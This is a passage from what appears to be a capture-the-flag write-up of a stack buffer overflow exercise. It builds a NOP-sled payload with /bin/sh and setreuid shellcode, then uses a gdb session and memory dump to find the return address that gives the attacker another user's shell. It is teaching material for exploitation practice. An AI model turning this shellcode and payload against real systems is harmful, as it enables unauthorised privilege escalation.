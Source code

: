 We need 2 x particular kinds of shellcode here, 1) `/bin/sh` shellcode to drop us into a shell and 2) `setreuid` shellcode to set our UID to that of the user we're trying to have the permissions for.

`/bin/sh` = `\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05`

### shellcode + pwntools

We want shellcode that calls `setreuid` to set our `uid=1003` i.e. `user3` permissions.

```sh
$ pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

total length of shellcode:

```python
Python 2.7.16 (default, Jul 19 2019, 23:05:17)
[GCC 7.3.1 20180712 (Red Hat 7.3.1-6)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> len('\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05')
54
```

Our new equation is now: `NOP + shellcode + pad + return_address = 169`, which is `NOP + 54 + 15 + 6 = 169`, so `NOP=94`.

Let's write our payload against bytes, `payload = '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x41'*6`

### NOP sled + Return Address

The 6 * `\x41`'s at the end are just a place holder for the return address we want- which is the address of the start of our shellcode.

How we find the a return address that will hit the start of our shellcode?

```sh
(gdb) run $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + 'A'*6")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + 'A'*6")
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH1BBBBBBBBBBBBAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe8c8: 0x004005a9      0x00000000      0xf7ffa268      0x00007fff
0x7fffffffe8d8: 0xffffecea      0x00007fff      0x67676f64      0x9090906f
0x7fffffffe8e8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe8f8: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe908: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe918: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe928: 0x90909090      0x90909090      0x90909090      0x90909090
0x7fffffffe938: 0x90909090      0x90909090      0x90909090      0xff319090
0x7fffffffe948: 0x03eabf66      0x4858716a      0x050ffe89      0x48583b6a
0x7fffffffe958: 0xb849d231      0x69622f2f      0x68732f6e      0x08e8c149
0x7fffffffe968: 0x89485041      0x485752e7      0x050fe689      0x48583c6a
0x7fffffffe978: 0x050fff31      0x42424242      0x42424242      0x42424242
```